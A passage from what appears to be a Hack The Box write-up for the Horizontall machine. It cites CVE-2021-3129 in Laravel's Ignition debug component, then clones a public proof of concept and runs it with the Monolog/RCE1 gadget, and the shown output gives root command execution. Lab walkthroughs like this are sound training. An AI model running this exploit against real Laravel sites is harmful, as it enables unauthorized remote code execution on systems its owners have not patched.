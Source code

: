 Looking at the site we can confirm it's running Laravel v8 (PHP v7.4.18). A search for an exploit finds [this](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-3129) CVE which says:

```text
Ignition before 2.5.2, as used in Laravel and other products,
allows unauthenticated remote attackers to execute arbitrary code 
because of insecure usage of file_get_contents() and file_put_contents().
This is exploitable on sites using debug mode with Laravel before 8.4.2.
```

We are on a version prior to 8.4.2, a look on GitHub finds [this](https://github.com/nth347/CVE-2021-3129_exploit) POC. We simply clone and run it against the box, let's try it:

```text
┌──(root💀kali)-[~/htb/horizontall]
└─# git clone https://github.com/nth347/CVE-2021-3129_exploit.git
Cloning into 'CVE-2021-3129_exploit'...
remote: Enumerating objects: 9, done.
remote: Counting objects: 100% (9/9), done.
remote: Compressing objects: 100% (8/8), done.
remote: Total 9 (delta 1), reused 3 (delta 0), pack-reused 0
Receiving objects: 100% (9/9), done.
Resolving deltas: 100% (1/1), done.

┌──(root💀kali)-[~/htb/horizontall]
└─# cd CVE-2021-3129_exploit

┌──(root💀kali)-[~/htb/horizontall/CVE-2021-3129_exploit]
└─# chmod +x exploit.py

┌──(root💀kali)-[~/htb/horizontall/CVE-2021-3129_exploit]
└─# ./exploit.py http://localhost:8000 Monolog/RCE1 id
[i] Trying to clear logs
[+] Logs cleared
[i] PHPGGC not found. Cloning it
Cloning into 'phpggc'...
remote: Enumerating objects: 2598, done.
remote: Counting objects: 100% (940/940), done.
remote: Compressing objects: 100% (528/528), done.
remote: Total 2598 (delta 379), reused 822 (delta 287), pack-reused 1658
Receiving objects: 100% (2598/2598), 390.29 KiB | 540.00 KiB/s, done.
Resolving deltas: 100% (1021/1021), done.
[+] Successfully converted logs to PHAR
[+] PHAR deserialized. Exploited

uid=0(root) gid=0(root) groups=0(root)

[i] Trying to clear logs
[+] Logs cleared
```

## Root Flag
